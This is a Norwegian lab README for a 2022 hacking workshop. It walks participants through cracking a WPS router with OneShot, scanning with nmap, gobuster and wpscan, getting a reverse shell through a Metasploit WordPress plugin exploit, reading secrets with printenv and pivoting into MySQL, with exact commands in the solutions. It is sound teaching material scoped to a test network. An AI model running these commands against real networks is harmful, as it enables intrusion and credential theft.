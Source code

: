 # Hackerworkshop Bekk Fagdag 21.10.2022

I denne workshopen skal du bryte deg inn på en ruter, kartlegge nettverket, finne sårbarheter i en webserver og skaffe deg tilgang til serveren og dens database.

## Engasjementsregler

- Det er bare tillatt å angripe wifi-nettverket kalt HackMe og enheter tilknyttet ruterens lokale nettverk på `192.168.38.0/24`.

- Tjenestenektangrep mot ruteren eller andre enheter på nettverket er ikke tillatt da det vil ødelegge for andre.

- Siden alle er koblet på samme nettverk er det lurt å unngå permanente endringer av filer, rettigheter og lignende dersom du skaffer deg tilgang til en server.

## Oppgaver

### 1. Bryt deg inn på wifi-nettverket
Routeren vi har satt opp bruker en sårbar implementasjon av WPS-protokollen. Ved hjelp av [OneShot](https://github.com/drygdryg/OneShot) kan vi utnytte det! 

**Bruk Oneshot og pixiedust til å finne passordet til HackMe-nettverket. Repoet er allerede klonet og klart på maskinen!**

<details>
<summary>Hint 1</summary>
Naviger til OneShot-repoet i en terminal og kjør oneshot.py med riktig options.
</details>

<details>
<summary>Hint 2</summary>

Dere må spesifisere riktig trådløst grensesnitt ved å bruke `-i` flagget. Trådløst grensesnitt kan du finne med kommandoen `iwconfig`.
  
</details>

<details>
<summary>Hint 3</summary>
  
Om det tar lang tid, kan det hende dere har glemt å spesifisere hvilket angrep OneShot skal kjøre, ved å kjøre `--pixie-dust`.
</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under, og velg nettverket HackMe.
  
```
sudo python oneshot.py -i wlan0 --pixie-dust
```

</details>

</br>

### 2. Kartlegging
Nå som dere er koblet til nettverket, skal dere finne ut hvilke enheter og hvilke åpne porter som er tilgjengelige. 
Noter eventuelle interessante funn.

<details><summary>Hint 1</summary>

Her kan dere bruke verktøyet `nmap` til å scanne nettverket. Bruk `man nmap` for å se hvilke options dere kan gi til nmap. Vi har erfart at kjøring av nmap inne i docker gir varierende uttelling. Kjør derfor nmap fra vertsmaskinen. 

</details>

<details><summary>Hint 2</summary>

Enheter som ligger i IP-rangen `192.168.38.100 - 192.168.38.255` er dere selv og andre deltakere i workshopen.

</details>

<details><summary>Løsningsforslag</summary>

Kjør nmap med `-A`flagget for å vise mer informasjon om her host.
  
```sudo nmap -A 192.168.38.0-100```
  
</details>


</br>

### 3. Grav dypere!
Velg dere ut det funnet fra forrige oppgave dere tenker er mest interessant å se videre på. Dere skal nå forsøke å lære litt mer om denne enheten, i jakten på en angrepsvinkel.

**a) Finn ut hvilke teknologier som er i bruk på serveren**

<details><summary>Hint 1</summary>
Også her er nmap et fint verktøy. Hvilke porter er åpne?
</details>

<details><summary>Hint 2</summary>
nma viser at port 1337 er åpen. Hva skjer om dere åpner 192.168.38.72:1337 i nettleseren?

Om dere ønsker, kan dere også bruke wappalyzer-utvidelsen i nettleseren for å undersøke nærmere. 
</details>
 
b) **Se etter skjulte ressurser på serveren ved hjelp av verktøyet `gobuster`. Bruk gjerne en kort ordliste, f. eks. [denne](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/common.txt) for å unngå å overbelaste serveren.**

<details><summary>Hint 1</summary>
Last ned ordlisten og kjør kommandoen under. Ser dere noen interessante funn?

```gobuster dir -u http://192.168.38.72:1337 -w common.txt```
</details>

<details><summary>Løsningsforslag</summary>

a) Her finnes det flere måter man kan konkludere med at webserveren kjører en wordpress-instans. Man kan feks åpne http://192.168.38.72:1337 i en browser, og se at "Powered by wordpress" pryder footeren på siden. 
  
b) Ved hjelp av gobuster kan vi også finne frem til siden `/secret` som redirecter til en fil. Om dere fant denne, fikk dere også et flagg. Yay!

</details> 
 
</br>

### 4. Kjente sårbarheter?

Nå som dere har funnet ut hvilke teknologier som brukes, er neste steg å finne ut nøyaktig hvilke versjoner som kjører, og om de har noen kjente sårbarheter. 
</br></br>
**Se om dere finner noe sårbart som kjører på serveren!**

<details><summary>Hint 1</summary>

Ettersom vi vet at dette er en wordpress-server, kan vi bruke verktøyet `wpscan`. Dette verktøyet er allerede installert på Kali linux, og brukes til å scanne blant annet sårbare versjoner, plugins og themes i tillegg til feilkonfigurasjoner.

</details>

<details><summary>Løsningsforslag</summary>
Kjør kommandoen under. Fra resultatet ser vi at serveren kjører en sårbar versjon av pluginen simple-file-list. 
  
```wpscan --url http://192.168.38.72:1337 --api-token <ditt_token> ```

</details>
</br>

### 5. Exploit time!
Nå som vi er ferdig med kartlegging av målet, er det på tide å dra frem storskytsen! Vi har funnet et mål, kartlagt teknologien og funnet en sårbarhet vi kan bruke som inngang. 
</br> </br>
**Bruk metasploit til å skaffe dere et shell på serveren.**

<details><summary>Hint 1</summary>
  
For å starte metasploit (metasploit framework console) kjører dere kommandoen `msfconsole`. Inne i metasploit-konsollen kan dere bruke kommandoen `search` for å lete etter en konkret exploit. 
</details>

<details><summary>Hint 2</summary>
  
Exploiten dere trenger heter `exploit/multi/http/wp_simple_file_list_rce`. Last den inn ved å bruke `use`-kommandoen. `options`-kommandoen er nyttig for å se hvilke variabler som må settes før exploiten kjøres. 
</details>

<details><summary>Hint 3</summary>

Dere må sette følgende variabler ved hjelp av metasploits `set`-kommando.
  
```
RHOST - Remote host, denne fant dere tidligere
RPORT - Remote port, denne fant dere tidligere
LHOST - Local host. Deres egen IP (ikke localhost)
```
</details>

<details><summary>Løsningsforslag</summary>
</br>
Kjør kommandoene under, så vil du forhåpentligvis få et shell på serveren!
  
```
> msfconsole
> use exploit/multi/http/wp_simple_file_list_rce
> set RHOST 192.168.38.72
> set RPORT 1337
> set LHOST <deres egen ip>
> exploit
```  
</details>

</br>

### 6. Se dere rundt!
Nå som vi har et shell på serveren, kan vi begynne å snoke rundt etter noe interessant (.. i dette tilfellet et flagg!). 
</br></br>
**Ta en runde på serveren, og se om dere finner noe som ligner et flagg.**

<details><summary>Hint 1</summary>
Det kan være fristende å navigere rundt i filsystemet, men det vil være en blindvei i dette tilfellet. 
</details>


<details><summary>Hint 2</summary>
Hvor er det ganske vanlig å legge databasepassord, API-nøkler og lignende?
</details>

<details><summary>Hint 3</summary>
Det kan være lurt å ta en titt på miljøvariabler.
</details>

<details><summary>Løsningsforslag</summary>

Flagget ligger i en miljøvariabel på serveren. Kjør følgende kommando: `printenv`
</details>

</br>

### 7. Kom dere inn i databasen!
Nå som vi har hoppet videre inn i nettverket er det mulig å finne enheter eller porter som ikke er direkte eksponert på nettverket, men som er tilgjengelig for serveren vi er inne på. I forrige oppgave fant vi all informasjonen vi trenger for å koble til webserverens database. Finn ut hvordan du kobler deg til den.

<details><summary>Hint 1</summary>
  
`mysql`-kommandoen er nyttig, men først må du sørge for at du kan nå databaseserveren fra Kali.
  
</details>

<details><summary>Hint 2</summary>
  
Du kan bruke `portfwd` i meterpreter til å sette opp port forwarding.
  
</details>

<details><summary>Løsningsforslag</summary>

Første steg er å sette opp port forwarding fra webserveren til databasen.

```
portfwd add -p 3306 -r db -l 3306
```

Da videresendes trafikken mot localhost:3306 til db:3306 via webserveren. Nå kan vi åpne et nytt vindu i Kali og koble oss til databasen.

```
mysql -h localhost --port 3306 --user=wordpress --password=<flagget_fra_forrige_oppgave> wordpress
```

Nå gjenstår det bare å finne det siste flagget!

</details>

